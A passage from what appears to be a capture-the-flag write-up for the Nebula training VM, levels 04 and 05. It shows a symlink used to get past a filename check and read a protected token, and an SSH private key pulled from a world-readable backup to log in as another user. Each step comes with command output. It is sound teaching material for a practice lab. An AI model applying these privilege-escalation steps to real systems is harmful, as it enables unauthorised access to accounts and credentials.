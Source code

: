   if(strstr(argv[1], "token") != NULL) {
      printf("You may not access '%s'\n", argv[1]);
      exit(EXIT_FAILURE);
  }

  fd = open(argv[1], O_RDONLY);
  if(fd == -1) {
      err(EXIT_FAILURE, "Unable to open %s", argv[1]);
  }

  rc = read(fd, buf, sizeof(buf));
  
  if(rc == -1) {
      err(EXIT_FAILURE, "Unable to read fd %d", fd);
  }

  write(1, buf, rc);
}
{{< /codecaption >}}

This code tries to read the `token` file which is read/write protected. We can bypass that by creating a symlink to the token and reading that instead.
The token file contains the password for `flag04` user.
 
{{< codecaption lang="sh" title="Symbolic Link Exploit">}}
level04@nebula:/home/flag04$ ln -s  /home/flag04/token /tmp/bypass
level04@nebula:/home/flag04$ ./flag04 /tmp/bypass
06508b5e-8909-4f38-b630-fdb148a848a2
level04@nebula:/home/flag04$ su flag04 -
Password: 
sh-4.2$ getflag 
You have successfully executed getflag on a target account
sh-4.2$ 
{{< /codecaption >}}

### Level05
Description:

> Check the flag05 home directory. You are looking for weak directory permissions

This level has world readable backup file which contains the private key for `flag05` user. We can use it to ssh in as `flag05`.

{{< codecaption lang="sh" title="Weak Permissions" >}}
level05@nebula:/home/flag05$ cd .backup/
level05@nebula:/home/flag05/.backup$ ls -al
total 2
drwxr-xr-x 2 flag05 flag05    42 2011-11-20 20:13 .
drwxr-x--- 4 flag05 level05   93 2012-08-18 06:56 ..
-rw-rw-r-- 1 flag05 flag05  1826 2011-11-20 20:13 backup-19072011.tgz
level05@nebula:/home/flag05/.backup$ mkdir /tmp/backup
level05@nebula:/home/flag05/.backup$ cp backup-19072011.tgz /tmp/backup/
level05@nebula:/home/flag05/.backup$ cd /tmp/backup/
level05@nebula:/tmp/backup$ tar xvf backup-19072011.tgz 
.ssh/
.ssh/id_rsa.pub
.ssh/id_rsa
.ssh/authorized_keys
level05@nebula:/tmp/backup$ cd .ssh
level05@nebula:/tmp/backup/.ssh$ ssh -i id_rsa flag05@localhost
The authenticity of host 'localhost (127.0.0.1)' can't be established.
ECDSA key fingerprint is ea:8d:09:1d:f1:69:e6:1e:55:c7:ec:e9:76:a1:37:f0.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added 'localhost' (ECDSA) to the list of known hosts.
flag05@nebula:~$ getflag
You have successfully executed getflag on a target account
{{< /codecaption >}}


[phpexploit]: http://www.madirish.net/402
[race]: https://en.wikipedia.org/wiki/Time_of_check_to_time_of_use
[ld]: (https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/)